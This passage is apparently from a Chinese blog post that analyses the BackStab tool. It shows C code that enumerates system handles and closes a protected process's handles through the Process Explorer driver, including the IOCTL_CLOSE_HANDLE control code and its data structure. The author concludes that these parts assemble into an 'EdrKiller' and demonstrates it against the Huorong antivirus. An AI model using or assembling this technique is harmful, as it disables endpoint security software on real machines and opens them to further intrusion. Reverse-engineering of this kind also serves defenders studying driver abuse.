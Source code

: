 利用这个 API 获取了系统内所有句柄信息，再去与之前保护进程句柄对应的 Pid 进行比较，找到对应的句柄信息，

```c
if (handleInfo.ProcessId == dwPID) 
{
			if (i % 15 == 0)
			{
				DWORD dwProcStatus = 0;
				GetExitCodeProcess(hProcess, &dwProcStatus);
				if (dwProcStatus != STILL_ACTIVE)
				{
					return;
				}
			}
			ProcExpKillHandle(dwPID, handleInfo.Handle);
		}
```

判断成功后会调用 ProcExpKillHandle 函数，这个函数是作者自己写的，目的就是关闭这个进程的句柄以达到关闭进程的目的，也是工具的核心。

但是在这之前还有一个 i % 15 == 0 的判断，这个判断的目的是每隔 15 个 Handle 检查一次进程是不是已经关闭了，这个数字可以随便调，其目的就是为了在已经关闭进程后能停止循环。

### 利用 ProcEXP 驱动发送 关闭句柄指令

ProcExpKillHandle 函数分为两部分，后一部分是通过 DeviceIoControl 发送 IOCTL_CLOSE_HANDLE 指令，前一部分就是针对这个指令所需要的各种参数。

```
DeviceIoControl(hProcExpDevice, IOCTL_CLOSE_HANDLE, (LPVOID)&ctrl, sizeof(PROCEXP_DATA_EXCHANGE), NULL,0,NULL,NULL);
```

DeviceIoControl 的第二个参数是操作的控制代码，也就是调用驱动内函数时的调用代码，BackStab 的作者应该是已经把 ProcEXP.sys 逆完了，已经了解了关闭句柄的控制代码以及所需参数：

```c
#define IOCTL_CLOSE_HANDLE 2201288708

typedef struct _ioControl
{
	ULONGLONG ulPID;
	PVOID lpObjectAddress;
	ULONGLONG ulSize;
	ULONGLONG ulHandle;
} PROCEXP_DATA_EXCHANGE, * PPROCEXP_DATA_EXCHANGE;
```

## 结果

根据上面的过程凑吧凑吧也能凑出一个只有删除功能的 EdrKiller

以火绒举例：

![image-20210629093739324](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629093739324.png)

![image-20210629093822512](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629093822512.png)